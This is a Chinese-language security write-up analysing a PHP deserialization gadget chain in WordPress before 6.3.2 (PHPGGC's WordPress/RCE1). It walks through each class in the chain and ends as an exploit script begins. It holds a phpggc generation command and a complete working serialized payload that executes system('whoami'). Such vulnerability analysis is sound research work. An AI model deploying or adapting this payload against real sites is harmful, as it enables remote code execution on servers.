# 一条有趣的 WordPress 反序列化链分析 - 先知社区

一条有趣的 WordPress 反序列化链分析

- - -

# WordPress 反序列化链分析

## 前言

最近实践中正好碰到一个 WordPress 站点，发现很久没有关注 PHP 框架中的漏洞，于是去 PHPGGC 上看一看有没有"好玩的"RCE，正好看到 WordPress/RCE/1 这条链，仔细分析一下其过程，挺有意思

## 描述

WordPress < 6.3.2，存在一条反序列链，以 WP\_Theme 中的\_\_toString 为起点，WpOrg\\Requests\\Hooks 的 dispatch 方法为终点。

## 相关类

**WP\_Block\_List 类**：

在 WordPress 中，`WP_Block_List` 类是用于管理和操作页面上的块（blocks）的核心类之一。块是 WordPress 编辑器（Gutenberg）的基本构建单元，用于创建和组织内容。

`WP_Block_List` 类提供了一系列方法来处理块，包括以下功能：

1.  注册和管理块类型：`WP_Block_List` 类允许开发者注册和管理自定义的块类型。通过注册块类型，可以定义块的属性、编辑器样式和渲染模板等。
2.  渲染块内容：`WP_Block_List` 类提供了方法来渲染块的内容。这包括将块的属性传递给块模板，生成最终的块输出。
3.  解析块内容：`WP_Block_List` 类还提供了将块内容解析为可编辑的块数据结构的方法。这对于处理保存在数据库中的块内容以及在编辑器中加载和编辑块非常有用。
4.  块过滤和转换：`WP_Block_List` 类提供了方法来过滤和转换块内容。这样可以对块进行操作，例如添加、删除、修改属性或在块之间进行排序。

**WP\_Theme**：

在 WordPress 中，WP\_Theme 类是一个用于处理和管理主题（theme）的类。它提供了一组方法和属性，用于获取主题的信息、样式和模板文件、父子主题关系等。

**WP\_Block\_Type\_Registry**：

WP\_Block\_Type\_Registry 类是一个用于管理和注册区块类型（Block Type）的类。它提供了一系列方法和功能，用于注册、检索和操作区块类型。开发者可以轻松地注册、获取和管理区块类型。区块类型是 Gutenberg 编辑器中的核心概念，它定义了一个可重复使用的区块，具有自己的属性、样式和呈现逻辑。WP\_Block\_Type\_Registry 类提供了一种机制，允许开发者通过自定义区块类型来扩展和定制 WordPress 的编辑体验。

**WpOrg\\Requests\\Session**：

WpOrg\\Requests\\Session 是一个用于处理会话数据的类。它提供了一组方法和功能，用于在 WordPress 应用程序中管理和存储会话数据。

**WpOrg\\Requests\\Hooks**：

Wp\_Hook 类的方法允许开发者通过添加、移除和执行回调函数来自定义和扩展 WordPress 功能。通过使用动作钩子和过滤器钩子，开发者可以在适当的时机干预 WordPress 的执行流程，并修改数据、添加功能或者改变输出。

## Trick

```plain
<?php
    class hello{
        public function aaa(){
            echo "hello!";
        }
    }
    $hello = new hello();
    [$hello,"aaa"]();
?>
```

这样能够成功执行 hello 中的 aaa 方法，这在 CTF 中经常出现

**可变函数**：可变函数（Variable Functions）是一种特殊的语法，允许通过变量来调用函数。这意味着函数名可以存储在一个变量中，并在需要时通过该变量动态调用函数。

## 测试

**payload 生成**：

使用 phpggc 生成：

```plain
php phpggc WordPress/RCE1 system whoami -u
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240208122857-933a861a-c63a-1.png)

**测试文件**：

```plain
<?php
require_once __DIR__.'/wp-load.php';
wp();
$str = "O%3A8%3A%22WP_Theme%22%3A2%3A%7Bs%3A7%3A%22headers%22%3BO%3A13%3A%22WP_Block_List%22%3A2%3A%7Bs%3A6%3A%22blocks%22%3Ba%3A1%3A%7Bs%3A4%3A%22Name%22%3Ba%3A1%3A%7Bs%3A9%3A%22blockName%22%3Bs%3A12%3A%22Parent+Theme%22%3B%7D%7Ds%3A8%3A%22registry%22%3BO%3A22%3A%22WP_Block_Type_Registry%22%3A1%3A%7Bs%3A22%3A%22registered_block_types%22%3BO%3A8%3A%22WP_Theme%22%3A2%3A%7Bs%3A7%3A%22headers%22%3BN%3Bs%3A6%3A%22parent%22%3BO%3A22%3A%22WpOrg%5CRequests%5CSession%22%3A3%3A%7Bs%3A3%3A%22url%22%3Bs%3A10%3A%22http%3A%2F%2Fp%3A0%22%3Bs%3A7%3A%22headers%22%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22whoami%22%3B%7Ds%3A7%3A%22options%22%3Ba%3A1%3A%7Bs%3A5%3A%22hooks%22%3BO%3A20%3A%22WpOrg%5CRequests%5CHooks%22%3A1%3A%7Bs%3A5%3A%22hooks%22%3Ba%3A1%3A%7Bs%3A23%3A%22requests.before_request%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A1%3A%7Bi%3A0%3Ba%3A2%3A%7Bi%3A0%3BO%3A20%3A%22WpOrg%5CRequests%5CHooks%22%3A1%3A%7Bs%3A5%3A%22hooks%22%3Ba%3A1%3A%7Bs%3A15%3A%22http%3A%2F%2Fp%3A0%2FName%22%3Ba%3A1%3A%7Bi%3A0%3Ba%3A1%3A%7Bi%3A0%3Bs%3A6%3A%22system%22%3B%7D%7D%7D%7Di%3A1%3Bs%3A8%3A%22dispatch%22%3B%7D%7D%7D%7D%7D%7D%7D%7D%7D%7Ds%3A6%3A%22parent%22%3BN%3B%7D";
$obj = unserialize(urldecode($str));
echo $obj;
?>
```

**输出结果**：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240208122912-9c06517a-c63a-1.png)

## 函数调用栈

```plain
Hooks.php:93, WpOrg\Requests\Hooks->dispatch()
Hooks.php:93, WpOrg\Requests\Hooks->dispatch()
Requests.php:455, WpOrg\Requests\Requests::request()
Session.php:232, WpOrg\Requests\Session->request()
Session.php:159, WpOrg\Requests\Session->get()
class-wp-theme.php:702, WP_Theme->offsetGet()
class-wp-block-type-registry.php:145, WP_Block_Type_Registry->get_registered()
class-wp-block.php:130, WP_Block->__construct()
class-wp-block-list.php:96, WP_Block_List->offsetGet()
class-wp-theme.php:833, WP_Theme->get()
class-wp-theme.php:851, WP_Theme->display()
class-wp-theme.php:513, WP_Theme->__toString()
debug.php:6, {main}()
```

## 调试分析

**第一步**：

从测试文件开始

[](https://xzfile.aliyuncs.com/media/upload/picture/20240208122925-a4024816-c63a-1.png)

通过反序列化得到的$obj 是 WP\_Theme 对象，而使用 echo 输出对象会触发该对象的\_\_toString 方法

**第二步**：

进入 wp-includes/class-wp-theme.php 的\_\_toString 方法

```plain
/**
     * When converting the object to a string, the theme name is returned.
     *
     * @since 3.4.0
     *
     * @return string Theme name, ready for display (translated)
     */
public function __toString() {
    return (string) $this->display( 'Name' );
}
```

传入字符串 Name，进入该对象的 display 方法

```plain
public function display( $header, $markup = true, $translate = true ) {
    // 这里
    $value = $this->get( $header );
    if ( false === $value ) {
        return false;
    }

    if ( $translate && ( empty( $value ) || ! $this->load_textdomain() ) ) {
        $translate = false;
    }

    if ( $translate ) {
        $value = $this->translate_header( $header, $value );
    }

    if ( $markup ) {
        $value = $this->markup_header( $header, $value, $translate );
    }

    return $value;
}
```

这里的$header 为字符串 Name，依旧还在该类中，进入 get 方法

```plain
public function get( $header ) {
    if ( ! isset( $this->headers[ $header ] ) ) {
        return false;
    }

    if ( ! isset( $this->headers_sanitized ) ) {
        $this->headers_sanitized = $this->cache_get( 'headers' );
        if ( ! is_array( $this->headers_sanitized ) ) {
            $this->headers_sanitized = array();
        }
    }

    if ( isset( $this->headers_sanitized[ $header ] ) ) {
        return $this->headers_sanitized[ $header ];
    }

    // If themes are a persistent group, sanitize everything and cache it. One cache add is better than many cache sets.
    if ( self::$persistently_cache ) {
        foreach ( array_keys( $this->headers ) as $_header ) {
            $this->headers_sanitized[ $_header ] = $this->sanitize_header( $_header, $this->headers[ $_header ] );
        }
        $this->cache_add( 'headers', $this->headers_sanitized );
    } else {

        // 关键点
        $this->headers_sanitized[ $header ] = $this->sanitize_header( $header, $this->headers[ $header ] );
    }

    return $this->headers_sanitized[ $header ];
}
```

这里的$this->headers\[ $header \]类似于访问数组元素，而 headers 属性可以控制，将其设置成实现 ArrayAccess 接口的类，这样就会调用该类的 offsetGet、offsetSet、offsetExists 和 offsetUnset 等方法进行元素的操作

这里将$this->headers 设置成 WP\_Block\_List 对象，这个类实现了 ArrayAccess 接口，这样在$this->headers\[ $header \]操作时会进入 offsetGet 方法，其中$header 依旧为字符串 Name

[](https://xzfile.aliyuncs.com/media/upload/picture/20240208122944-af20c588-c63a-1.png)

**第三步**：

进入 wp-includes/class-wp-block-list.php 的 offsetGet 方法

```plain
public function offsetGet( $index ) {
    $block = $this->blocks[ $index ];

    if ( isset( $block ) && is_array( $block ) ) {
        // 关键点
        $block                  = new WP_Block( $block, $this->available_context, $this->registry );
        $this->blocks[ $index ] = $block;
    }

    return $block;
}
```

同样 WP\_Block\_List 对象中的属性全部都能控制，要达到关键点，需要满足 if 条件，即 blocks 属性要有 Name 键，并且是一个数组

[](https://xzfile.aliyuncs.com/media/upload/picture/20240208122958-b7681304-c63a-1.png)

这里会实例化一个 WP\_Block 对象，并且参数都是可控

**第四步**：

进入 wp-includes/class-wp-block.php 的构造方法

```plain
public function __construct( $block, $available_context = array(), $registry = null ) {
    $this->parsed_block = $block;
    $this->name         = $block['blockName'];

    if ( is_null( $registry ) ) {
        $registry = WP_Block_Type_Registry::get_instance();
    }

    $this->registry = $registry;

    // 关键点
    $this->block_type = $registry->get_registered( $this->name );

    $this->available_context = $available_context;

    // ...
}
```

这里构造方法的$registry 参数可控，并且关键点中的$this->name 也可控，因此这里选择将$registry 设置成 WP\_Block\_Type\_Registry 扩展类的实例，通过调用其 get\_registered 方法来衔接链

[](https://xzfile.aliyuncs.com/media/upload/picture/20240208123010-bebfaa36-c63a-1.png)

**第五步**：

进入 wp-includes/class-wp-block-type-registry.php 的 get\_registered 方法

```plain
public function get_registered( $name ) {
    if ( ! $this->is_registered( $name ) ) {
        return null;
    }
    // 关键点
    return $this->registered_block_types[ $name ];
}
```

要到达关键点，首先需要不满足 if 条件：! $this->is\_registered( $name )，即对应的$name 已注册

```plain
public function is_registered( $name ) {
    return isset( $this->registered_block_types[ $name ] );
}
```

在关键点处，同样的道理，$this->registered\_block\_types 为实现 ArrayAccess 接口的类实例，这样在取$name 时能够调用 offsetGet 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240208123024-c6f45418-c63a-1.png)

这里将$this->registered\_block\_types 设置为 WP\_Theme 实例，WP\_Theme 类同样也继承 ArrayAccess 接口

**第六步**：

进入 wp-includes/class-wp-theme.php 的 offsetGet 方法

```plain
public function offsetGet( $offset ) {
    switch ( $offset ) {
        case 'Name':
        case 'Title':
            /*
                 * See note above about using translated data. get() is not ideal.
                 * It is only for backward compatibility. Use display().
                 */
            return $this->get( 'Name' );
        case 'Author':
            return $this->display( 'Author' );
        case 'Author Name':
            return $this->display( 'Author', false );
        case 'Author URI':
            return $this->display( 'AuthorURI' );
        case 'Description':
            return $this->display( 'Description' );
        case 'Version':
        case 'Status':
            return $this->get( $offset );
        case 'Template':
            return $this->get_template();
        case 'Stylesheet':
            return $this->get_stylesheet();
        case 'Template Files':
            return $this->get_files( 'php', 1, true );
        case 'Stylesheet Files':
            return $this->get_files( 'css', 0, false );
        case 'Template Dir':
            return $this->get_template_directory();
        case 'Stylesheet Dir':
            return $this->get_stylesheet_directory();
        case 'Screenshot':
            return $this->get_screenshot( 'relative' );
        case 'Tags':
            return $this->get( 'Tags' );
        case 'Theme Root':
            return $this->get_theme_root();
        case 'Theme Root URI':
            return $this->get_theme_root_uri();
        // 关键点
        case 'Parent Theme':
            return $this->parent() ? $this->parent()->get( 'Name' ) : '';
        default:
            return null;
    }
}
```

$offset 参数可控，这里将其设置为'Parent Theme'，查看$this->parent()

```plain
public function parent() {
    return isset( $this->parent ) ? $this->parent : false;
}
```

返回 parent 属性，$this->parent 同样可控，可以将其设置为一个包含 get 方法的类实例，这里选择 Session 实例

[](https://xzfile.aliyuncs.com/media/upload/picture/20240208123039-d028648e-c63a-1.png)

**第七步**：

进入 wp-includes/Requests/src/Session.php 的 get 方法

```plain
public function get($url, $headers = [], $options = []) {
    return $this->request($url, $headers, null, Requests::GET, $options);
}
```

这里的$url 依旧是字符串 Name，进入本类的 request 方法

```plain
public function request($url, $headers = [], $data = [], $type = Requests::GET, $options = []) {
    // 合并成一个 request 请求
    $request = $this->merge_request(compact('url', 'headers', 'data', 'options'));
    // 使用静态方法发起一个请求
    // 关键点
    return Requests::request($request['url'], $request['headers'], $request['data'], $type, $request['options']);
}
```

进入 request 方法的参数都可控

[](https://xzfile.aliyuncs.com/media/upload/picture/20240208123052-d80730ae-c63a-1.png)

**第八步**：

进入 wp-includes/Requests/src/Requests.php 的 request 方法

```plain
public static function request($url, $headers = [], $data = [], $type = self::GET, $options = []) {
    if (InputValidator::is_string_or_stringable($url) === false) {
        throw InvalidArgument::create(1, '$url', 'string|Stringable', gettype($url));
    }

    if (is_string($type) === false) {
        throw InvalidArgument::create(4, '$type', 'string', gettype($type));
    }

    if (is_array($options) === false) {
        throw InvalidArgument::create(5, '$options', 'array', gettype($options));
    }

    if (empty($options['type'])) {
        $options['type'] = $type;
    }

    $options = array_merge(self::get_default_options(), $options);

    self::set_defaults($url, $headers, $data, $type, $options);

    // 使用请求钩子（hooks）触发requests.before_parse事件,允许用户在解析响应之前对响应进行自定义操作
    // 关键点
    $options['hooks']->dispatch('requests.before_request', [&$url, &$headers, &$data, &$type, &$options]);

    // ...
}
```

$options 变量可控，需要寻找一个包含 dispatch 方法的类，选择 Hooks 实例

[](https://xzfile.aliyuncs.com/media/upload/picture/20240208123106-e004eaf8-c63a-1.png)

**第九步**：

进入 wp-includes/Requests/src/Hooks.php 的 dispatch 方法

```plain
public function dispatch($hook, $parameters = []) {
    if (is_string($hook) === false) {
        throw InvalidArgument::create(1, '$hook', 'string', gettype($hook));
    }

    // Check strictly against array, as Array* objects don't work in combination with `call_user_func_array()`.
    if (is_array($parameters) === false) {
        throw InvalidArgument::create(2, '$parameters', 'array', gettype($parameters));
    }

    if (empty($this->hooks[$hook])) {
        return false;
    }

    if (!empty($parameters)) {
        // Strip potential keys from the array to prevent them being interpreted as parameter names in PHP 8.0.
        $parameters = array_values($parameters);
    }

    ksort($this->hooks[$hook]);

    // 关键部分
    // 通过两层循环，遍历钩子列表中的每个回调函数。外层循环按照优先级顺序遍历，内层循环遍历每个优先级下的回调函数。
    // 在内层循环中，通过调用 $callback(...$parameters) 执行回调函数。使用可变长度参数语法将 $parameters 数组中的元素作为参数传递给回调函数。
    foreach ($this->hooks[$hook] as $priority => $hooked) {
        foreach ($hooked as $callback) {
            $callback(...$parameters);
        }
    }

    return true;
}
```

该方法的作用是触发指定钩子事件，并按照优先级顺序执行与之关联的回调函数。它通过遍历钩子列表中的回调函数，并将参数传递给每个回调函数来实现这一目的。这种机制允许开发者在特定的时机插入自定义逻辑，扩展和定制程序的功能。

这里的 hooks 和$parameters 都可控，从而控制$callback 回调函数和参数

第一次调用 dispatch 方法，即 Requests.php 中的 request 方法处

```plain
$options['hooks']->dispatch('requests.before_request', [&$url, &$headers, &$data, &$type, &$options]);
```

所构成的回调函数$this->hooks\["requests.before\_request"\]\[0\]\[0\](\[&$url, &$headers, &$data, &$type, &$options\])

而$this->hooks\["requests.before\_request"\]\[0\]\[0\]为一个数组，第一个元素为 Hooks 实例，第二个元素为方法字符串"dispatch"，因此又回调至 Hooks 的 dispatch 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240208123120-e87f9d7c-c63a-1.png)

第二次调用 dispatch 方法，通过回调，由于 dispatch 方法只使用了两个参数，因此回调中的后三个参数不会使用，即$data、$type 和$option

```plain
dispatch(&$url, &$headers)
```

此时的$this 对应的是新 Hooks 实例，$hook 参数对应的是$url，而$this->hooks 数组中存在以$url 为键的值，是一个数组，里面第一个元素为 system 字符串

而$parameters 对应的是$header，是一个数组，里面存放 whoami 字符串，从而构成回调方法：system(\["whoami"\])

[](https://xzfile.aliyuncs.com/media/upload/picture/20240208123133-f068d512-c63a-1.png)

最后成功 RCE

## 尝试编写 EXP

根据实现的整体流程，尝试动手编写 EXP

```plain
<?php
namespace WpOrg\Requests {
    class Session {
        private $url;
